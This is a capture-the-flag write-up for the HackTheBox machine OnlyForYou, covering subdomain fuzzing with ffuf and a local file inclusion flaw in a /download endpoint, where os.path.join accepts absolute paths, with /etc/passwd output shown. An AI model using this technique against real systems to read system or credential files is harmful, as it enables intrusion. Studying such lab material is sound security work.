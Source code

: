 ```yaml
---
layout: post
title:  "Writeup of OnlyForYou (HackTheBox)"
date:   2023-11-18 18:06:00 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox onlyforyou LFI neo4j
---
```


# Discovery

10.10.11.210:80 -> http://only4you.htb/

`ffuf -w /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.only4you.htb' -u http://only4you.htb -o subdomains.scan -fs 178`

```
beta.only4you.htb
```

We got **source.zip** containing the source code.

# LFI

Source code of `/download` endpoint:

```python
f '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
```

`os.path.join()` will ignore everything else if `filename` begins with `/`.

PoC:

```python
>>> os.path.join("/some/path/to/file", "/test")
'/test'
```

It would probably be vulnerable either way because of the `not os.path.isabs()` check. 

So, there's an LFI on `POST /download`.

- **/etc/passwd**

```
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
...
```
